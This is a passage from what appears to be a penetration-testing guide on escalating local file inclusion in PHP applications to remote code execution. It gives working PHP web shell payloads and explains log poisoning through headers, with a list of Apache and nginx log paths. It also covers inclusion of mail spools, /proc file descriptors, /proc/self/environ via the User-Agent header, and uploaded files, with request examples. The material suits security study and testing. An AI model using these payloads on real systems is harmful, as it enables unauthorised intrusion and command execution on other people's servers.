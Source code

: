 Also, make sure you **write correctly the payload** or PHP will error every time it tries to load the log file and you won't have a second opportunity.
{% endhint %}

This could also be done in other logs but **be careful,** the code inside the logs could be URL encoded and this could destroy the Shell. The header **authorisation "basic"** contains "user:password" in Base64 and it is decoded inside the logs. The PHPShell could be inserted inside this header.\
Other possible log paths:

```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

Fuzzing wordlist: [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Via Email

**Send a mail** to a internal account (user@localhost) containing your PHP payload like `<?php echo system($_REQUEST["cmd"]); ?>` and try to include to the mail of the user with a path like **`/var/mail/<USERNAME>`** or **`/var/spool/mail/<USERNAME>`**

### Via /proc/\*/fd/\*

1. Upload a lot of shells (for example : 100)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be brute forced) and $FD the file descriptor (can be brute forced too)

### Via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```
